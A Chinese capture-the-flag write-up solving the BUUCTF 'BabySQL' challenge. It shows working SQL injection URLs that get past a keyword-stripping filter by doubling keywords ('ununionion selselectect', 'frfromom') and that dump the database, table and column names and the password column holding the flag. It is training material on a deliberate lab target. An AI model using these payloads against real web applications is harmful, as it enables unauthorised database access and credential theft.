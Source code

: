 # [[极客大挑战 2019]BabySQL](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)



## 0x00先判断闭合



```sql
http://xxx.cn:81/check.php?username=admin&password=admin'
```



结果为



```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin''' at line 1
```



此为字符型注入



## 0x01使用order by 判断列数



```sql
http://xxx.cn:81/check.php?username=admin&password='order by 1%23'
```



发现报错



```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'der 1#''' at line 1
```



通过报错报错发现or被屏蔽了，继续试了几个关键字发现都被屏蔽了，猜测应该是用函数replace给我们替换成了空白字符



## 0x01直接采用拼接字符的方法绕过



直接用联合查询猜回显



````sql
http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,3%23'
````



猜测成功，成功绕过,发现回显



```sql
Hello 2！

Your password is '3'
```



## 0x02直接用payload进行爆库等操作



```sql
http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,database(),version()%23'

http://bc18ac42-f1bd-4fb9-a274-2ebb248c618b.node4.buuoj.cn:81/check.php?username=admin&password='ununionion selselectect 1,user(),@@version_compile_os%23'
```



结果为

database		geek！

version		10.3.18-MariaDB

user		root@localhost！

平台		Linux



## 0x03继续爆表名



```sql
http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema= 'geek'%23'
```



结果为



```sql
Hello 2！

Your password is 'b4bsql,geekuser'
```



## 0x04直接查看b4bsql,geekuser两个表中的字段



```sql
http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name= 'b4bsql'%23'

http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name= 'geekuser'%23'
```



两个表的结果都为



```sql
Hello 2！

Your password is 'id,username,password'
```



## 0x05查看两个表下字段的详细信息



```sql
http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,username frfromom b4bsql%23

http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,passwoorrd frfromom b4bsql%23
```



结果分别为



```sql
Hello 2！

Your password is 'cl4y'

Hello 2！

Your password is 'i_want_to_play_2077'
```



这里走弯路了，**可以直接用group_concat子句将password列下的所有字段显示出来**，直接找到flag



```sql
http://xxx.cn:81/check.php?username=admin&password='ununionion selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql%23
```



结果为



```sql
Hello 2！

Your password is 'i_want_to_play_2077,sql_injection_is_so_fun,do_you_know_pornhub,github_is_different_from_pornhub,you_found_flag_so_stop,i_told_you_to_stop,hack_by_cl4y,flag{19deb901-dfac-433a-840b-5e7b463f8adf}'
```



**找到flag**

flag{19deb901-dfac-433a-840b-5e7b463f8adf}



## 0x06补充



### [SQL REPLACE()字符串替换函数](https://www.w3cschool.cn/sql/sql-replace.html)

将设定好的关键字替换为想要的字符（这里是将or,select等关键字替换为空字符所以才能用拼接字符的方法绕过）



作者

SihUi
